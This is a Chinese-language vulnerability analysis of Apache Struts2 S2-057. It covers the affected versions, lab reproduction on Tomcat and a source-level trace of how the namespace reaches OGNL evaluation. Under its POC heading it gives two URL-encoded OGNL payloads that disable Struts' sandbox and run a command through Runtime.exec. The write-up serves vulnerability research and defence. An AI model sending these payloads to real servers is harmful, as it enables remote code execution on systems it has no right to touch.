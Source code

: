 ### S2-057漏洞分析

#### 1.漏洞简介

struts2在xml配置中如果namespace未设置且（Action Configuration)中未设置或用通配符namespace时可能会导致远程代码执行

影响版本 struts2.3-2.3.34;Struts2.5-2.5.16

#### 2.漏洞复现

A.下载struts-showcase-apps

​	满足漏洞版本的showcase,http://archive.apache.org/dist/struts/2.3.31/ ，选择struts-2.3.31-apps.zip

B.将struts2-showcase.war放到tomcat的目录下,war包会自动解包

C.更改struts-actionchaining.xml内容为

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
	"-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
	"http://struts.apache.org/dtds/struts-2.3.dtd">
	
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="redirectAction">
                <param name = "actionName">register2</param>
            </result>
		</action>
	</package>
</struts>



```

注意struts-actionChaining.xml有两处,/WEB-INF/src/java以及/WEB-INF/classes都要修改

D.关闭tomcat后重新运行tomcat,输入youip:8080/struts2-showcase/${(111+2111)}/actionChain1.action即可验证漏洞，得到302 response 返回url:youip:8080/struts2-showcase/2222/register2.action

###### POC：

2.3.20：

```
/%24%7B%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C@java.lang.Runtime@getRuntime%28%29.exec%28%27calc.exe%27%29%7D/index.action
```

2.3.34

```
/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29%29%7D/actionChain1.action
```



#### 3.源码解析

###### 3.1 验证漏洞存在


ServletActionRedirectResult.class

```
public void execute(ActionInvocation invocation) throws Exception {
        this.actionName = this.conditionalParse(this.actionName, invocation);
        if (this.namespace == null) {
            this.namespace = invocation.getProxy().getNamespace();//<----source
        } else {
            this.namespace = this.conditionalParse(this.namespace, invocation);
        }

        if (this.method == null) {
            this.method = "";
        } else {
            this.method = this.conditionalParse(this.method, invocation);
        }
        
        String tmpLocation = this.actionMapper.getUriFromActionMapping(new ActionMapping(this.actionName, this.namespace, this.method, (Map)null));
        this.setLocation(tmpLocation);//namespace传入到location参数
        super.execute(invocation);//漏洞触发起始位置
    }
```

getUrlFromActionMapping()返回一个使用namespace构造的url字符串ActionMapping


![屏幕快照 2018-08-24 上午11.13.20](/Users/elsa/Desktop/屏幕快照 2018-08-24 上午11.13.20.png)

=>ServletRedirectResult.class

```
 public void execute(ActionInvocation invocation) throws Exception {
        if (this.anchor != null) {
            this.anchor = this.conditionalParse(this.anchor, invocation);
        }

        super.execute(invocation);//<---调用父类的方法
    }
```

=>StrutsResultSupport.class 

```
 public void execute(ActionInvocation invocation) throws Exception {
        //通过localtion字段调用conditionalParse()
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

=>TextParseUtil.class

```
public static String translateVariables(String expression, ValueStack stack, TextParseUtil.ParsedValueEvaluator evaluator) {
        return translateVariables(new char[]{'$', '%'}, expression, stack, String.class, evaluator).toString();//<--expression:"struts2-showcase/${(111+2111)}/register2.action"
    }
```

translateVariables()会调用ognl表达式,最终会执行:

expression的值会被放到node里,分解为两个childern

```
public static Object add(Object v1, Object v2) {//v1 111,v2 2111
    int type = getNumericType(v1, v2, true);
    switch(type) {//type 4
    case 6:
        return bigIntValue(v1).add(bigIntValue(v2));
    case 7:
    case 8:
        return newReal(type, doubleValue(v1) + doubleValue(v2));
    case 9:
        return bigDecValue(v1).add(bigDecValue(v2));
    case 10:
        int t1 = getNumericType(v1);
        int t2 = getNumericType(v2);
        if ((t1 == 10 || v2 != null) && (t2 == 10 || v1 != null)) {
            return stringValue(v1) + stringValue(v2);
        } else {
            throw new NullPointerException("Can't add values " + v1 + " , " + v2);
        }
    default:
        return newInteger(type, longValue(v1) + longValue(v2));//<---最后执行这个方法
    }
}
```

###### 3.2执行任意命令

如下图所示，为调试过程中打得断点

![屏幕快照 2018-08-28 上午10.59.11](/Users/elsa/Desktop/屏幕快照 2018-08-28 上午10.59.11.png)

与验证漏洞存在相同，最后触发漏洞的原因是调用了TextParseUtil.translateVariables()方法，而最后执行命令是调用的OgnlRuntime.invokerMethod()方法。![屏幕快照 2018-08-27 下午7.18.52](/Users/elsa/Desktop/屏幕快照 2018-08-27 下午7.18.52.png)

#### 4.参考

https://www.anquanke.com/post/id/157518

https://www.anquanke.com/post/id/157823